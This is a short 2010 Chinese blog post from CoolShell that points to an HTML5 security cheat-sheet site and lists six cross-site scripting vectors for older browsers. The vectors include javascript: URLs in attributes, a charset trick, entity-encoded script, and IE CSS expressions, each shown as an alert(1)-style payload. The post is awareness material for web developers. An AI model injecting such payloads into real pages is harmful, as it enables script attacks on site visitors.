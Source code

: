 ```yaml
---
layout: post
title: HTML 安全列表
date: 2010/5/12/ 0:57:38
updated: 2010/5/12/ 0:57:38
status: publish
published: true
type: post
---
```


下面这个网站罗列了，几乎所有的关于HTML 5 在各种主流浏览器上的安全问题，这些安全问题很有可能将会是黑客攻击你的网上的敲门砖，他们几乎都和Javascript都有关系，你就要好好注意了。


[**http://heideri.ch/jso/**](http://heideri.ch/jso/)


下面罗列几个：


**1）<table background=”javascript:alert(1)”>**


IE6，7，8，9，和Opera 8.x, 9.x, 10.x 都支持这样的语法。


**2）<meta charset=”mac-farsi”>¼script¾alert(1)¼/script¾**


这个问题会存在于所有的Firefox版本中，可以让用户进行XSS（跨站脚本）攻击


**3）<script>&amp;#x61;l&amp;#x65;rt&amp;#40;1)</script>**


在<script>和<style>的TAG间，根据标据，其可以使用这样的字符来运行脚本。这在所有版本的Firefox, Opera, 和 Chrome中都会有问题。



**4）({set/\*\*/$($){\_/\*\*/setter=$,\_=1}}).$=alert**


上面这个是Firefox的一个[语法](https://developer.mozilla.org/en/Core_JavaScript_1.5_Guide/Working_with_Objects#Defining_Getters_and_Setters)，也会产生XSS攻击。


**5）<div style=”font-family:foo}x=expression(write(1));”>XXX</div>**


自从IE5.5后，直到IE9，IE就可以支持上面这样的语法。


**6）src中是可以运行脚本的，如：**


<embed src=”javascript:alert(1)”>  

<img src=”javascript:alert(1)”>  

<image src=”javascript:alert(1)”>  

<script src=”javascript:alert(1)”>


又一个XSS攻击，几乎所有的浏览器都支持这样的方式，如：Firefox全部版本，Chrome 4.x/5.x，Opera 8.x/9.x/10.0，IE 6.0/7.0和Safari 3.x/4.x



还有很多，大家自己去看吧，这个网站经常更新的。总体感觉下来，IE和Firefox的安全问题都在伯仲之间，Safari貌似是问题最少的。




**（转载本站文章请注明作者和出处 [酷 壳 – CoolShell](https://coolshell.cn/) ，请勿用于任何商业用途）**



### 相关文章

* [![网络数字身份认证术](../wp-content/uploads/2022/01/iStock-1175502114-150x150.png)](https://coolshell.cn/articles/21708.html)[网络数字身份认证术](https://coolshell.cn/articles/21708.html)
* [![HTTP API 认证授权术](../wp-content/uploads/2019/05/Authorization-360x200-1-150x150.png)](https://coolshell.cn/articles/19395.html)[HTTP API 认证授权术](https://coolshell.cn/articles/19395.html)
* [![如何免费的让网站启用HTTPS](../wp-content/uploads/2017/08/enable-https-banner-150x150.png)](https://coolshell.cn/articles/18094.html)[如何免费的让网站启用HTTPS](https://coolshell.cn/articles/18094.html)
* [![Chrome开发者工具的小技巧](../wp-content/uploads/2017/01/pretty-code-150x150.gif)](https://coolshell.cn/articles/17634.html)[Chrome开发者工具的小技巧](https://coolshell.cn/articles/17634.html)
* [![从 MongoDB “赎金事件” 看安全问题](../wp-content/uploads/2017/01/MongoDB-150x150.jpg)](https://coolshell.cn/articles/17607.html)[从 MongoDB “赎金事件” 看安全问题](https://coolshell.cn/articles/17607.html)
* [![关于移动端的钓鱼式攻击](../wp-content/uploads/2015/04/phishing-1-150x150.jpg)](https://coolshell.cn/articles/17066.html)[关于移动端的钓鱼式攻击](https://coolshell.cn/articles/17066.html)
The post [HTML 安全列表](https://coolshell.cn/articles/2416.html) first appeared on [酷 壳 - CoolShell](https://coolshell.cn).

